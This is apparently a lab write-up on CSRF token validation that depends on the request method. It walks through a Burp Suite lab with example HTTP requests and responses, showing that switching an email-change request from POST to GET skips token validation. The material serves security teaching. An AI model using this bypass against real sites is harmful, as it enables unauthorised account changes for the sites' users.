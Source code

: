> NOTE: CSRF tokens aren't limited to being hidden form fields in `POST` requests. Some applications pass them in HTTP headers or through other means. The method used to send the token plays a crucial role in the overall effectiveness of the defense. For further details, refer to best practices for preventing CSRF vulnerabilities.

## Common flaws in CSRF token validation

CSRF vulnerabilities often occur because the application fails to properly validate CSRF tokens. This section outlines some of the most common mitakes that allow attackers to bypass these protections. For example some applications validate CSRF tokens only for `POST` requests but neglect to apply the same checks for `GET` requests.

### Validation of CSRF token depends on request method

In such cases, an attacker can exploit this oversight by switching to a `GET` request to carry out the CSRF attack, like so:

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1  
Host: vulnerable-website.com  
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### Lab: CSRF where token validation depends on request method

Open Burp's browser, navigate to the lab web address and log in with credentials `wiener:peter`. 

Submit the "Update email" form and find the associated request in __Proxy__ > __History__. 
_Request body:_
```
email=attacker%40fakemail.com&csrf=[[...token...]]
```

Send this request to __Repeater__ by right-clicking it and selecting "Send to Repeater" change the `csrf` parameter in the request body to anything else and resend the request. 
_Response:_
```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid CSRF token"
```

As we can see the CSRF token was rejected ("Invalid CSRF token") and the request didn't go through ("400 Bad Request").

Click the __Context Menu__ (three dashes; top-right corner of the request pane) of this request and select __Change request method__. This will automatically convert it into a `GET` request. Resend the request and observe the response:

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
